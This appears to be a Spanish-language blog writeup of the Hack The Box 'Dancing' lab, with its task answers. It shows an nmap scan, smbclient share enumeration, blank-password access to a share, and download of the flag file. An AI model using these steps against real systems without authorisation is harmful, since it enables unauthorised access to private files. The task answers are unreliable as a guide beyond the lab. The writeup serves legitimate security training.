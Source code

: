```yaml
---
title: Dancing Writeup
date: 2023-05-14
categories: [Writeups, Hackthebox]
tags: [Starting Point, Windows, Very Easy]
---
```

![img](/assets/img/post/dancing/dancing.png)

Vamos a estar completando la tercera maquina del starting point.

En esta vamos a estar tocando el protocolo SMB (Server Message Block) es un protocolo cliente / servidor que gobierna el acceso a archivos y directorios completos, así como a otros recursos de red como impresoras, enrutadores o interfaces abiertas a la red.

## Task 1. What does the 3-letter acronym SMB stand for?

*¿Qué significa el acrónimo de 3 letras SMB?*

```text
Server Message Block
```

## Task 2. What port does SMB use to operate at?

*¿Qué puerto utiliza SMB para operar?*

```text 
445
```

SMB usa el puerto IP 139 o 445.

## Task 3. What is the service name for port 445 that came up in our Nmap scan?

*¿Cuál es el nombre del servicio para el puerto 445 que apareció en nuestro escaneo Nmap?*

Vamos a realizar un escaneo con nmap a la maquina victima:

```bash
nmap -sV -p- --min-rate 5000 10.129.146.249
```
```bash
❯ nmap -sV -p- --min-rate 5000 10.129.146.249
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 22:22 AST
Nmap scan report for 10.129.201.125 (10.129.201.125)
Host is up (0.85s latency).
Not shown: 63698 filtered tcp ports (no-response), 1834 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.47 seconds
```

Podemos ver en nuestro escaneo que el nombre del servicio para el puerto 445 es:
```text
microsoft-ds
```

## Task 4. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

*¿Cuál es la 'bandera' o 'interruptor' que podemos usar con la herramienta SMB para 'listar' el contenido del recurso compartido?*
```text
-L
```

Vamos a Listar el contenido del recurso compartido de la maquina victima: 
```bash
smbclient -L 10.129.146.249
```
nos devuelve:
```bash
❯ smbclient -L 10.129.146.249
Password for [WORKGROUP\z3etxh]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.146.249 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## Task 5. How many shares are there on Dancing?

*¿Cuántos participaciones hay en Dancing?*

En el comando anterior pudimos listar el contenido mediante smbclient y miramos que son:
```text
4
```

## Task 6. What is the name of the share we are able to access in the end with a blank password?

*¿Cuál es el nombre del recurso compartido al que podemos acceder al final con una contraseña en blanco?*

Despues de haber intentado con cada uno de los recursos compartidos:
```text
WorkShares
```

Indicamos que queremos acceder al recurso compartido 'WorkShares' de la siguiente forma:

```bash 
smbclient \\\\10.129.146.249\\WorkShares
```

Nos va a pedir Password, pero como hablamos anterior mente, la contraseña es texto en blanco, asi que le damos un enter.

```bash
❯ smbclient \\\\10.129.146.249\\WorkShares
Password for [WORKGROUP\z3etxh]:
Try "help" to get a list of possible commands.
smb: \> ls
```

Despues que estemos dentro, nos basta con hacer un 'ls', para listar directorios de la maquina victima.

```bash
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021
```

Vemos 2 Usuarios, miramos el contenido de cada directorio, en este caso lo que buscamos esta en el directorio "James.P"

```bash
smb: \> cd James.p
smb: \James.p\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
```

## Task 7. What is the command we can use within the SMB shell to download the files we find?

*¿Cuál es el comando que podemos usar dentro del shell SMB para descargar los archivos que encontramos?*

El comando es:
```text
get
```

Descargamos el archivo flag:

```bash 
get flag.txt 
```

ya deberiamos de encontrar el archivo en nuestra maquina.

## Submit root flag

```bash
❯ cat flag.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: flag.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 5f61c10dffbc77a704d76016a22f1**
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```





